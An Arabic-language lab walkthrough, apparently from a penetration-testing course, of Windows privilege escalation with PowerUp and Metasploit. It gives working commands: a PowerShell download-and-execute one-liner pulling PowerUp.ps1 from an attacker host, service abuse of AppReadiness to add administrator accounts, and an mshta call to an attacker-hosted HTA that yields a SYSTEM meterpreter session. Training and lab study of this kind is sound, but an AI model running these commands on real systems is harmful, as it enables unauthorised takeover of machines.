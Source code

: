 نشوف انه رفض  
طيب خلونا نشيك هل وش اليوزرات الي داخل قروب administrators  
```bash
shell  
net localgroup administrators  
```  
نشوف انه مافي يوزر bob فقط يوجد Administrator داخل administrators group  
طيب راح نرفع اداة اسمها powerup نفس سركبت linpeas الي في linux  
خلونا ننتقل لمسارها اولا ونفتح البايثون سيرفر وننقله  
```bash
cd /root/Desktop/tools/PowerSploit/Privesc/  
ls  
python -m SimpleHTTPServer 80  
```  
الان خلونا نرجع للميتاسبلويت ونطلع من الشيل ونسوي load للـ powershell  
```bash
CTRL + C  
load powershell  
```  
حلو الان خلونا نفتح الباورشيل  
```bash
powershell_shell  
```  
طيب حلو الان خلونا ننقل الملف من جهاز الاتاكر الى جهاز التارقت ف خلونا نشوف الامر التالي  
```bash
iex (New-Object Net.WebClient).DownloadString('http://10.10.15.3/PowerUp.ps1')  
```  
حلو الان خلونا نشغل السكربت هذا ونشوف وش ثغرات تصعيد الصلاحيات الي نقدر نستغلها  
```bash
Invoke-AllChecks  
```  
نشوف انه حصلنا يوزر bob وحصلنا الباسورد حقه  
وكذالك حصلنا سيرفس نقدر نستغلها اسمها AppReadiness  
طبعا عندنا طريقتين للاستغلال  
1. انه نسوي يوزر جديد على جهاز التارقت بصلاحيات administrator  
2. انه نضيف يوزر عندنا الى قروب الـ administrators  
خلونا نستغل الطريقة الثانيه  
```bash
Invoke-ServiceAbuse -Name AppReadiness -Command "net localgroup administrators bob /add"  
net localgroup administrators   
```  
وخلونا الان نجرب الطريقة الاولى ونسوي يوزر جديد ونضيفه بالقروب  
```bash
Invoke-ServiceAbuse -Name AppReadiness  -UserName ine -Password password_123 -LocalGroup "Administrators"  
net user  
```  
طبعا نقدر نشغل HTML Application (HTA) عشان ناخذ meterpreter session  
طبعا له موديول بالميتاسبلويت  
```bash
msfconsole -q  
use exploit/windows/misc/hta_server  
show options  
set LHOST 443  
exploit  
```  
الان نشوف انه عطانا الـ Local IP ومرفق فيها الرابط الي فيه ملف HTA  
خلونا الان نرجع للسيشن الي معنا وننفذ الامر التالي في الباورشيل عشان ناخذ meterprerte session باعلى صلاحيات  
```bash
Invoke-ServiceAbuse -Name AppReadiness  -Command "mshta.exe http://10.10.15.3:8080/ljUAsN.hta"  
```  
نشوف انه فتح لنا سيشن جديده خلونا ندخل ونشوف صلاحياتنا  
```bash
sessions -i 1  
getuid  
```  
ونشوف انه معنا اعلى صلاحيات والي هي NT AUTHORITY\SYSTEM  